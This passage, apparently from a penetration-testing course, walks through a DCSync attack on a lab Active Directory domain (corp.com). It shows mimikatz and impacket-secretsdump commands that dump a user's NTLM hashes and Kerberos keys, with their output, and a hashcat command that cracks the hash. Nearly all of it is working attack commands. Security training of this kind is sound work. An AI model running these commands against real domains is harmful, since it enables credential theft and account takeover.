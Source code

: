 ```shell
PS C:\Tools> .\mimikatz.exe
...

mimikatz # lsadump::dcsync /user:corp\dave
[DC] 'corp.com' will be the domain
[DC] 'DC1.corp.com' will be the DC server
[DC] 'corp\dave' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : dave

** SAM ACCOUNT **

SAM Username         : dave
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00410200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD DONT_REQUIRE_PREAUTH )
Account expiration   :
Password last change : 9/7/2022 9:54:57 AM
Object Security ID   : S-1-5-21-1987370270-658905905-1781884369-1103
Object Relative ID   : 1103

Credentials:
    Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 0: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 1: a11e808659d5ec5b6c4f43c1e5a0972d
    lm  - 0: 45bc7d437911303a42e764eaf8fda43e
    lm  - 1: fdd7d20efbcaf626bd2ccedd49d9512d
...

kali@kali:~$ hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
08d7a47a6f9f66b97b1bae4178747494:Flowers1  
```

For now, let's perform the dcsync attack from Linux as well. We'll use impacket-secretsdump to acheive this. To launch it, we'll enter the target username **dave** as an argument for **-just-dc-user** and provide the credentials of a user with the required rights, as well as the IP of the domain controller in the format **domain/user:password@ip**.

```bash
kali@kali:~$ impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
[*] Kerberos keys grabbed
dave:aes256-cts-hmac-sha1-96:4d8d35c33875a543e3afa94974d738474a203cd74919173fd2a64570c51b1389
dave:aes128-cts-hmac-sha1-96:f94890e59afc170fd34cfbd7456d122b
dave:des-cbc-md5:1a329b4338bfa215
[*] Cleaning up...
```
